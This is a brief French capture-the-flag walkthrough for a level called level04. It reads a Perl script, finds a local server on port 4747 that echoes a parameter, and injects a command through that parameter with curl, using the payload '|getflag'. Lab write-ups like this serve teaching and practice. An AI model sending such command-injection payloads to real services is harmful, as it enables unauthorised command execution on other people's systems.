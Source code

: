 ```
cat level04.pl
```

En lisant le script i l semblerait qu'il y ait un server qui ecoute dans localhost:4747
on peut essayer de faire un get avec `curl`

```
curl localhost:4747/?x='hello'
```
Ca retourne le parametre x. On voit dans le script qu'il s'agit d'un echo mais a travers l'argument x on peut injecter une commande:

```
curl localhost:4747/?x='|getflag'
```
